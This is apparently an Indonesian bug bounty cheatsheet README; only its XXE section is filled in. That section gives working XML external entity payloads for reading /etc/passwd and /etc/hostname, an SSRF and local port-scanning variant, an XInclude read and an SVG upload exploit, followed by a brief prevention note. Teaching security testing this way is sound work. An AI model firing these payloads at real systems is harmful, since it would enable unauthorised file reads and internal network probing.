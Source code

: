 # VULNERABILITY :beetle:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    > `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    > `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    > `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    > `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
    >`POST /action HTTP/1.0`<br/>
    >`Content-Type: application/x-www-form-urlencoded`<br/>
    >`Content-Length: 7`<br/>
    >`foo=bar`<br/>
dimodif<br/>
    >`POST /action HTTP/1.0`<br/>
    >`Content-Type: text/xml`<br/>
    >`Content-Length: 52`<br/>
    >`<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`<br/>
    
- **Prevention**
  ```
  Disable DTD
  Disable entity saja
  ```
- **Online Resource**
  - 
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

